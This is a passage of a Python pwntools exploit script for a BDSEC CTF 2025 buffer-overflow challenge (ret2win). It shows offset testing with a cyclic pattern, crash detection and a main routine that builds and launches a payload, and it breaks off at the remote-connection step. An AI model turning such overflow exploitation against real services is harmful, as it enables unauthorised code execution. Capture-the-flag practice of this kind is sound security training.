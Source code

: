 ```python
def test_offset():
    """
    Test the offset calculation using a pattern
    """
    print("[*] Testing offset calculation...")
    
    # Create a unique pattern to identify exact offset
    pattern = cyclic(60)
    
    try:
        p = process(BINARY_PATH)
        p.recvuntil(b"input: ")
        p.sendline(pattern)
        
        # Try to get crash info
        try:
            output = p.recv(timeout=1)
            print(f"[*] Program output: {output}")
        except:
            pass
            
        p.wait()
        
        # Check if process crashed
        if p.poll() == -11:  # SIGSEGV
            print("[+] Program crashed as expected")
        else:
            print(f"[!] Unexpected exit code: {p.poll()}")
            
        p.close()
        
    except Exception as e:
        print(f"[!] Error testing offset: {e}")

def main():
    # Set up pwntools context
    context.arch = 'i386'
    context.os = 'linux'
    context.log_level = 'info'
    
    print("=" * 50)
    print("BDSEC CTF 2025 - Buffer Overflow Exploit")
    print("Strategy: ret2win")
    print("=" * 50)
    
    # Check if binary exists
    if not os.path.exists(BINARY_PATH):
        print(f"[!] Binary not found: {BINARY_PATH}")
        return
    
    # Test offset first (optional)
    if len(sys.argv) > 1 and sys.argv[1] == "test":
        test_offset()
        return
    
    # Build exploit
    payload = exploit_ret2win()
    
    # Launch exploit
    print("[*] Launching exploit...")
    
    try:
        # For remote connection, update these details
```